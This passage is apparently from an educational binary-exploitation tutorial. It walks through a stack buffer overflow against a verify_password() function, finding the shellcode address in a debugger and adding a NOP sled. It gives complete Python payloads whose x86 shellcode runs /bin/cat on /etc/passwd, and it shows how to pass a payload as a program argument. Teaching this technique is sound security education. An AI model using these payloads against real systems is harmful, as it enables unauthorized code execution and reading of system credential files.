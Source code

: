 We could have expected it, `esp` is pointing at the very beginning of the shellcode. The `ret` instruction from `verify_password()` pop'ed the overwritten return address and \(tried to\) jump to it. So, this means `esp` is now pointing to what was written right after the return address, i.e. our shellcode.

So now, we can see that the shellcode will be located at `0xbfffef20` \(see the blocks of `0x43434343`\). So, the payload will be:

```text
python -c "print 28*'A' + '\x20\xef\xff\xbf' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'"
```

Sometimes, the size of the user input might influence the address where the shellcode will be located. In fact, several aspect of the program might slightly alter the actual location of the shellcode. For instance, running the application in `gdb` or straight from the terminal will slightly [shift the stack](https://reverseengineering.stackexchange.com/a/2988) in memory. In our case, we have a difference of around 0x20 bytes.

In order to overcome this problem, we can build what's known as a "NOP sled". If you remember from chapter [assembly](assembly.md#line-12-nop), the `nop` instruction does nothing, which in our case could be useful. We can build a relatively long chain of `nop` instructions and place it right before the shellcode. Then we don't need to give the exact address of the shellcode, we just need to find an address within that chain of `nop`. If we manage to land there, the CPU will execute the `nop` \(i.e. do nothing\) and move to the next instruction until it eventually reaches the first instruction of our actual shellcode.

So here is our final payload with a `nop` sled of 100 `nop` instructions:

```text
python -c "print 28*'A' + '\x52\xef\xff\xbf' + 100 * '\x90' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'"
```

We also changed the return address to point in the middle of our nop sled: `0xbfffef52`.

### Send your payload

There are multiple ways for a program to get user inputs. In this chapter, we will cover two ways:

* from the application argument
* from `scanf`/`gets`

#### Application argument

We've seen in chapter [programming](programming.md#program-arguments), whenever you call an application with argument \(e.g. `cp /path/source /path/destination`\), the argument\(s\) are sent in a form of a string array to `main` as `argv`. If one of the argument can be leverage to exploit a buffer overflow, here are the different way to send the payload.

One way is to use the Linux command line argument:

```text
./application $(echo -ne "AAA...A\x52\xef\xff\xbf\x90\x90...")
```

